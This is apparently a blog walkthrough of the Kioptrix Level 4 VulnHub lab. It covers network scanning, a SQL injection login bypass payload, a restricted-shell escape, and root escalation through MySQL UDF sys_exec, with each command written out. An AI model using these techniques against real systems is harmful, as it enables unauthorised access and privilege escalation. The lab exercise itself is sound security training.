 ```yaml
---
layout: post
title: "Kioptrix Level 4"
date: 2022-03-05
categories: [VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix-level-4.png

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![image](https://user-images.githubusercontent.com/67465230/156876091-8a7d29f5-477a-4f01-ac56-c3c92b95e31d.png)

Okay, so the IP address of the box is 10.0.2.71.

Now, let's start port scanning with nmap,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876096-599dedca-a8c7-40af-8bdb-d4a171e8f104.png)

we can see that there are 3 ports open 22(SSH), 80(http), 139,445(SMB).

Okay, we got SMB service running on this machine, so let's enumerate all users with nmap's smb-enum-users script,

```bash
sudo nmap -sC --script=smb-enum-users 10.0.2.71 -oN nmap_smb-users
```

![image](https://user-images.githubusercontent.com/67465230/156876105-12fc31b4-ae7e-4c04-b4d1-fe65fa3f9444.png)

we got John User.

Let's check what technologies are running on website,

```bash
whatweb http://10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876115-e37ff5a5-a13f-4647-ac5b-f64df1e05eca.png)

It has password field that means there's a login page as well. Great!!

Let's visit http://10.0.2.71,

![image](https://user-images.githubusercontent.com/67465230/156876126-04ccfa62-f079-45cb-b556-d64cf4c12676.png)

we got login page. Since this box has login mechanism then chances are MySQL service might be running as well ( hopefully it does :) ) and this box is vulnerable to SQLi. So let's try to login using structured query,

providing `username=john and password=1' or 1=1#`,

![image](https://user-images.githubusercontent.com/67465230/156876135-0c585504-8c85-44dc-917b-f28587240919.png)

now press login button,

we got in as john user and there we got login creds (SSH ? let's see! ),

![image](https://user-images.githubusercontent.com/67465230/156876148-0c85aacf-c153-4603-b71c-d03d9b0a62eb.png)

Let's ssh using these creds,

```bash
ssh john@10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876153-b9600342-7f69-4d57-9f0c-df0cb3ebde6d.png)

we got shell!!

let's Identify who we are,

```bash
whoami
id
```

![image](https://user-images.githubusercontent.com/67465230/156876160-1bda5222-e187-4caa-a7a0-5e2a672d77af.png)

Huh?? command won't work? let's try other commands.

try to change directory with cd command,

![image](https://user-images.githubusercontent.com/67465230/156876165-2bd7ed92-93d3-4589-8126-3f791f85e2f7.png)

We got warning and looks like if we type one more command then system will throw us out!! It throws me like trash for few times XD. But why? maybe we have under privilege shell. Let's see what commands we can run,

```bash
help
```

![image](https://user-images.githubusercontent.com/67465230/156876199-8fb87519-84f6-4845-a96d-461b777fd4d4.png)

seems like aren't much commands we can run but there echo command seems great friend to us right now. Let's use it to gain a fully functional shell,

```bash
echo os.system("/bin/bash")
```

![image](https://user-images.githubusercontent.com/67465230/156876203-e6260649-e468-4064-8479-f57a995dfc07.png)

we can now identify who we are with whoami command.

Now, that we got access as John user, now we'll move towards Privilege Escalation. For that, do ENUMERATION!!

After some enumeration, I found a file named checklogin.php in /var/www directory. let's view the content of file,

```bash
cat checklogin.php
```

![image](https://user-images.githubusercontent.com/67465230/156876215-fa0ea7f2-655b-401c-947b-59e43e2c57e8.png)

As you can see that, there is no password, so you can easily bypass MYSQL with UDF, [command-execution-with-mysql-udf](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html), means we can escalate our privileges to root!

But before to proceed, let's check whether MySQL service is running with root privileges or not by typing the following command:

```bash
ls -la /user/lib/lib_mysqludf_sys.so
```

![image](https://user-images.githubusercontent.com/67465230/156876228-4ac8649b-a315-47e1-b97b-c6bc4d65525b.png)

Yes, mysql service is running so now, let's connect to mysql database with mysql client.

```bash
mysql -h localhost -u root -p
```

![image](https://user-images.githubusercontent.com/67465230/156876238-74c32a12-eb2d-4807-9e71-df25fdbf6332.png)

show databases; will give you a list of all databases.

Let's run a usermod command with sys_exec to give john admin privileges,

```bash
select sys_exec("usermod -a -G admin john"); exit
```

![image](https://user-images.githubusercontent.com/67465230/156876245-1e4e112f-789c-42d5-bd3c-cf23bddd7c1d.png)

This will add john to admin group and we'll take exit.

Now, let's switch to superuser,

```bash
sudo su
```

![image](https://user-images.githubusercontent.com/67465230/156876266-6021fbd0-bcb8-4407-a746-52f3e1b2b8bd.png)

by providing the password we found after exploiting login mechanism of machine using SQLi, we got system access and we confirmed it using id command.

navigating to /root directory and establish all directory content with ls,

![image](https://user-images.githubusercontent.com/67465230/156876271-4e9bef95-5c01-4e14-82d1-f4c1ea3dbcbb.png)

we got root flag. Let's view the content of it,

```bash
cat congrats.txt
```

![image](https://user-images.githubusercontent.com/67465230/156876296-f852ebbb-0363-4cf0-9061-725ff84e4dd1.png)

We've successfully rooted this machine.